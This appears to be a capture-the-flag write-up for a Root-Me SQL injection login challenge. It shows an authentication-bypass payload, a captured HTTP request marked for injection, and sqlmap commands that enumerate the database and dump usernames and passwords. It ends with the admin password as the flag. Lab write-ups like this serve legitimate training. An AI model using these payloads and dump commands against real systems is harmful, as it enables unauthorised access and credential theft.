

We can see there is an `SQL injection` here, because we get authenticated when supplying: `blabla' or '1'='1'--`


We'll use `sqlmap` for this challenge, I'm taking the request I send in burp, and adding `*` at the injection point:
```
POST /web-serveur/ch9/ HTTP/1.1
Host: challenge01.root-me.org
Content-Length: 40
Cache-Control: max-age=0
Origin: http://challenge01.root-me.org
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://challenge01.root-me.org/web-serveur/ch9/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,he;q=0.8
Cookie: _shopify_y=ffcfe8b9-4be8-4d95-bf50-165a84e65869; _tracking_consent=3.AMPS_ILJM_f_f_cmTqaElVQReO*YOuoTirbg; _orig_referrer=https%3A%2F%2Fwww.root-me.org%2F; _landing_page=%2F
Connection: keep-alive

login=*&password=pass
``` 

Next, I put it in `req.txt` and simply running `sqlmap -r req.txt`


Okay, let's start and scrapping the sql db:

* Achieve db using this command:
```
sqlmap -r req.txt --dbs
```
* * Got the answer that this is using `SQLITE`, so there are no databases
---
* Achieve tables using this command:
```
sqlmap -r req.txt --tables
```
* * got table: `users`
---
* Achieve columns using this command:
```
sqlmap -r req.txt -T users --columns
```
* * got this columns: `password`, `username`, `Year`
---
* Achieve table data using this command:
```
sqlmap -r req.txt -T users -C username,password --dump
```
* * | username | password     |
    |--------- | ------------ |
    | user1    | TYsgv75zgtq  |
    | admin    | t0_W34k!$    |
    | user2    | R78gsyd34dzf |


Okay, so the password is: `t0_W34k!$`

**Flag:** ***`t0_W34k!$`***
